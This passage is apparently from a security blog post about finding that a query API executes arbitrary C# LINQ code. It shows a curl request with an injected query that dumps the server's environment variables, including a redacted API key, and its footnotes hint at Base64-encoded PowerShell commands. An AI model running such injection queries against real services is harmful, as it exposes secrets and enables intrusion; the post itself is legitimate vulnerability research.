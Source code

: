 Before testing this, I had no idea in what context our code gets executed. Surely there must be some kind of sandbox that blocks most calls. A whitelist that does indeed only allow for searching and filtering. _Anything_.

It turns out: Nope. There are hurdles, but nothing intentional as far as I can tell.

Let's start exploring by trying to acquire some information about the environment. We call the `API` via `curl` and pipe the result into `jq` for better readability:

```text { linenos=true, linenostart=1, hl_lines=["9","10","38"] }
$ curl --request POST 'https://placeholder.lol/api/MakeQuery\
--data-raw '[
  {
    "query" : "(context) =>
      context
      .Documents()
      .Where(document => document.Id == 1337)
      .Select(document => new {
        Environment = Environment.GetEnvironmentVariables(),
        document.Id
      })"
  }
]'| jq
     ---snip--
{
"Environment": {
  "COMPUTERNAME": "<redacted>",
  "POWERSHELL_DISTRIBUTION_CHANNEL": "MSI:Windows Server 2019 Standard",
  "PUBLIC": "C:\\Users\\Public",
  "LOCALAPPDATA": "C:\\Windows\\system32\\config\\systemprofile\\AppData\\Local",
  "PSModulePath": "C:\\Program Files\\WindowsPowerShell\\Modules;C:\\Windows\\system32\\WindowsPowerShell\\v1.0\\Modules;C:\\Program Files (x86)\\Microsoft SQL Server\\140\\Tools\\PowerShell\\Modules\\",
  "PROCESSOR_ARCHITECTURE": "AMD64",
  "Path": "C:\\Windows\\system32;C:\\Windows;C:\\Windows\\System32\\Wbem;C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\;C:\\Windows\\System32\\OpenSSH\\;C:\\Program Files (x86)\\Microsoft SQL Server\\140\\Tools\\Binn\\;C:\\Program Files\\Microsoft SQL Server\\140\\Tools\\Binn\\;C:\\Program Files\\Microsoft SQL Server\\Client SDK\\ODBC\\130\\Tools\\Binn\\;C:\\Program Files\\Microsoft SQL Server\\140\\DTS\\Binn\\;C:\\Program Files (x86)\\Microsoft SQL Server\\150\\DTS\\Binn\\;D:\\<redacted>;C:\\Program Files\\Microsoft\\Web Platform Installer\\;C:\\Program Files\\Seq\\Client\\;C:\\Program Files\\Git\\cmd;C:\\Program Files\\dotnet\\;C:\\Program Files (x86)\\dotnet\\;C:\\Tools\\Software\\;C:\\Program Files\\PowerShell\\7\\;C:\\Windows\\system32\\config\\systemprofile\\AppData\\Local\\Microsoft\\WindowsApps",
  "CommonProgramFiles(x86)": "C:\\Program Files (x86)\\Common Files",
  "ProgramFiles(x86)": "C:\\Program Files (x86)",
  "PROCESSOR_LEVEL": "6",
  "ProgramFiles": "C:\\Program Files",
  "PATHEXT": ".COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH;.MSC",
  "USERPROFILE": "C:\\Windows\\system32\\config\\systemprofile",
  "SystemRoot": "C:\\Windows",
  "APP_POOL_ID": "<redacted>",
  "ALLUSERSPROFILE": "C:\\ProgramData",
  "DriverData": "C:\\Windows\\System32\\Drivers\\DriverData",
  "APP_POOL_CONFIG": "C:\\inetpub\\<redacted>",
  "PROCESSOR_REVISION": "9e0a",
  "USERNAME": "<redacted>",
  "CommonProgramW6432": "C:\\Program Files\\Common Files",
  "API_SEC_KEY": "<redacted>",
  "CommonProgramFiles": "C:\\Program Files\\Common Files",
  "OS": "Windows_NT",
  "PROCESSOR_IDENTIFIER": "Intel64 Family 6 Model 158 Stepping 10, GenuineIntel",
  "ComSpec": "C:\\Windows\\system32\\cmd.exe",
  "SystemDrive": "C:",
  "TEMP": "C:\\Temp",
  "NUMBER_OF_PROCESSORS": "4",
```

[^fn:1]: As opposed to [query syntax](https://docs.microsoft.com/en-us/dotnet/csharp/programming-guide/concepts/linq/query-syntax-and-method-syntax-in-linq).
[^fn:2]: Here's your friendly reminder that environment variables are **not** a safe place to store secrets.
[^fn:3]: You can find more information and a pretty diagram [here](https://docs.microsoft.com/en-us/iis/get-started/introduction-to-iis/introduction-to-iis-architecture#http-request-processing-in-iis).
[^fn:4]: Again, `Microsoft` has [more](https://docs.microsoft.com/en-us/iis/manage/configuring-security/application-pool-identities) information on the topic.
[^fn:5]: You should instead check out the man himself [here](https://fasterthanli.me/series/reading-files-the-hard-way).
[^fn:6]: It's not as straightforward to obtain the imports of a binary as it is on `Linux`. In the end, I simply loaded the .exe into `Ghidra` and looked at the "Symbol Tree".
[^fn:7]: At first, I've simply used the amazing [CyberChef](https://gchq.github.io/CyberChef/) to encode the command. It turns out that this will trip up `PowerShell`, as it's expecting an `Unicode` string. To make it work, we have to encode our command to `UTF-16LE` before applying the `Base64` encoding. This can be done with `CyberChef` as well. Of course it can.